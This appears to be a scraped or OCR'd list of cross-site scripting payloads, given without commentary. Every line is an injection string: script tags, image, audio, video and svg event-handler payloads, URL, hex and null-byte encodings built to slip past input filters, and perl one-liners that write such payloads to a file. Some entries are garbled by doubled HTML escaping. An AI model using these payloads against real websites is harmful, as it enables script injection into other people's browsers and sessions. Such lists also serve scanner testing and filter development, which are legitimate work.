 &lt;;A HREF=";http://www.gohttp://www.google.com/ogle.com/";&gt;;XSS&lt;;/A&gt;;

";&gt;;&lt;;BODY onload!#$%&;()*~+-_.,:;?@[/|\]^`=alert(";XSS";)&gt;;

&lt;;br size=\";&;{alert(&#039;XSS&#039;)}\";&gt;;

perl -e &#039;print \";&lt;;IMG SRC=java\0script:alert(\";XSS\";)&gt;;\";;&#039; &gt;; out

perl -e &#039;print \";&lt;;SCR\0IPT&gt;;alert(\";XSS\";)&lt;;/SCR\0IPT&gt;;\";;&#039; &gt;; out

&gt;"&gt;&lt;script&gt;alert("XSS")&lt;/script&gt;&

"&gt;&lt;STYLE&gt;@import"javascript:alert('XSS')";&lt;/STYLE&gt;

&gt;"'&gt;&lt;img%20src%3D%26%23x6a;%26%23x61;%26%23x76;%26%23x61;%26%23x73;%26%23x63;%26%23x72;%26%23x69;%26%23x70;%26%23x74;%26%23x3a;alert(%26quot;%26%23x20;XSS%26%23x20;Test%26%23x20;Successful%26quot;)&gt;

'%uff1cscript%uff1ealert('XSS')%uff1c/script%uff1e'

&lt;IMG SRC=JaVaScRiPt:alert(&quot;XSS&lt;WBR&gt;&quot;)&gt;

&lt;IMG SRC="jav&#x0A;ascript:alert(&lt;WBR&gt;'XSS');"&gt;

&lt;IMG SRC="jav&#x0D;ascript:alert(&lt;WBR&gt;'XSS');"&gt;

&lt;script&gt;alert('XSS')&lt;/script&gt;

%3cscript%3ealert('XSS')%3c/script%3e

%22%3e%3cscript%3ealert('XSS')%3c/script%3e

&lt;script\x3Etype="text/javascript"&gt;javascript:alert(1);&lt;/script&gt;

&lt;script\x0Dtype="text/javascript"&gt;javascript:alert(1);&lt;/script&gt;

&lt;script\x09type="text/javascript"&gt;javascript:alert(1);&lt;/script&gt;

&lt;script\x0Ctype="text/javascript"&gt;javascript:alert(1);&lt;/script&gt;

&lt;script\x2Ftype="text/javascript"&gt;javascript:alert(1);&lt;/script&gt;

&lt;script\x0Atype="text/javascript"&gt;javascript:alert(1);&lt;/script&gt;

'`"&gt;&lt;\x3Cscript&gt;javascript:alert(1)&lt;/script&gt;

'`"&gt;&lt;\x00script&gt;javascript:alert(1)&lt;/script&gt;

&lt;img src=1 href=1 onerror="javascript:alert(1)"&gt;&lt;/img&gt;

&lt;audio src=1 href=1 onerror="javascript:alert(1)"&gt;&lt;/audio&gt;

&lt;video src=1 href=1 onerror="javascript:alert(1)"&gt;&lt;/video&gt;

&lt;body src=1 href=1 onerror="javascript:alert(1)"&gt;&lt;/body&gt;

&lt;image src=1 href=1 onerror="javascript:alert(1)"&gt;&lt;/image&gt;

&lt;object src=1 href=1 onerror="javascript:alert(1)"&gt;&lt;/object&gt;

&lt;script src=1 href=1 onerror="javascript:alert(1)"&gt;&lt;/script&gt;

&lt;svg onResize svg onResize="javascript:javascript:alert(1)"&gt;&lt;/svg onResize&gt;

&lt;title onPropertyChange title onPropertyChange="javascript:javascript:alert(1)"&gt;&lt;/title onPropertyChange&gt;
